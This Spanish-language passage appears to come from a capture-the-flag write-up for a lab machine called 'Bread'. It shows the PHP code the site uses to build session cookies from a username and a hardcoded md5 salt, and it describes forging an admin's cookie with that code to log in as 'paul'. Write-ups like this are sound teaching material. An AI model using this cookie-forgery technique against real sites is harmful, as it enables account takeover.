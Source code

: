 
En este punto podemos empezar a revisar archivo interesantes que encontramos fuzzeando y no podíamos leer. Uno de estos archivos lo encontramos en /portal/cookies.php, donde podemos ver cómo se crea la cookie de sesión de los usuarios. Copiamos el output y le damos forma para que podamos usarlo.

```php
<?php
function makesession($username){
    $max = strlen($username) - 1;
    $seed = rand(0, $max);
    $key = "s4lTy_stR1nG_".$username[$seed].'(!528./9890';
    $session_cookie = $username.md5($key);

    echo $session_cookie;
}

makesession("test")
?>
```
Con esto podemos crearnos la cookie de algún usuario admin que nos mostraba en el apartado de usuarios en la página web.

![imagen8](/assets/images/Bread/bread8.png)

Haciendo pruebas vemos que pudimos logearnos correctamente con paul. Con esto pudimos acceder al apartado de file management, pero al intentar subir el archivo zip que solicita nos muestra un error. Podemos intentar revisar el código fuente de file.php para saber que hace.
